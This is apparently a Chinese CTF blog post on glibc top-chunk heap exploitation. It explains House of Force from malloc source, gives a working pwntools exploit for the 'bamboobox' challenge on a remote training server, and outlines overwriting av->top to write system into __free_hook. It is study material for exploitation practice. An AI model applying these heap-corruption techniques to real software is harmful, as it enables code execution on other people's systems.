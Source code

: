 ```yaml
---
clayout: post
title:  "top chunk利用"
date:   2020-2-24
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


# top chunk利用

## House of Orange

略

## House of Force

```c
  /* finally, do the allocation */
  p = av->top;
  size = chunksize (p);

  /* check that one of the above allocation paths succeeded */
  if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
    {
      remainder_size = size - nb;
      remainder = chunk_at_offset (p, nb);
      av->top = remainder;
      set_head (p, nb | PREV_INUSE | (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_head (remainder, remainder_size | PREV_INUSE);
      check_malloced_chunk (av, p, nb);
      return chunk2mem (p);
    }
```

从top chunk分配

```c
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
```

转化为无符号数比较，如果把size改为-1必能过

申请后更新top chunk

```c
      remainder_size = size - nb;
      remainder = chunk_at_offset (p, nb);
      av->top = remainder;
```

```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

nb是申请的size，chunk_at_offset根据nb找到新的top chunk位置

如果能把top chunk改为-1，并且能申请任意大小的chunk，就能控制top chunk到任意位置

glibc2.29上香

### hitcontraining_bamboobox

有个放着hello_message和goodbye_message函数的白给chunk，把goodbye_message改成magic，exit拿flag

edit size没验，可以溢出改top chunk size，把指针抬到白给chunk

```python
from pwn import *
r = remote('node3.buuoj.cn',28044)
#r = process('./bamboobox')
elf = ELF('./bamboobox')

magic = 0x400d49

def show():
	r.sendlineafter('Your choice:','1')

def add(size,name):
	r.sendlineafter('Your choice:','2')
	r.sendlineafter('name:',str(size))
	r.sendlineafter('item:',name)

def edit(index,size,name):
	r.sendlineafter('Your choice:','3')
	r.sendlineafter('item:',str(index))
	r.sendlineafter('name:',str(size))
	r.sendafter('item:',name)

def free(index):
	r.sendlineafter('Your choice:','4')
	r.sendlineafter('item:',str(index))


add(0x60,'fuck')
edit(0,0x70,'a'*0x60+p64(0)+'\xff'*8)
add(-0x70-0x20-0x10,'aaaa')
add(0x20,p64(magic)*2)
r.interactive()
```



## 利用top chunk写free hook

在malloc hook写onegadget不好使，用realloc调整栈再跳onegadget也不好使，没办法直接写free hook，可以考虑利用top chunk写free hook

```c
  /* finally, do the allocation */
  p = av->top;
  size = chunksize (p);

  /* check that one of the above allocation paths succeeded */
  if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
    {
      remainder_size = size - nb;
      remainder = chunk_at_offset (p, nb);
      av->top = remainder;
      set_head (p, nb | PREV_INUSE | (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_head (remainder, remainder_size | PREV_INUSE);
      check_malloced_chunk (av, p, nb);
      return chunk2mem (p);
    }
```

av->top在main_arena

glibc2.23

把top chunk指针改为free hook上方某个符合top chunk size条件的位置，一般使用fastbin attack，malloc hook-0x3有满足条件的size，如果一次不够写到av->top可以控制main_arena+48的fastbin指针指向有合法size的main_arena+16再来一次

👴为什么不直接打malloc_hook，因为onegadget不好使

把av->top覆盖为free_hook-0xb58，size符合条件

然后malloc(0x90)18次，下一次就到free hook，把system写进free hook

👴为什么不把onegadget写进free hook，因为onegadget不好使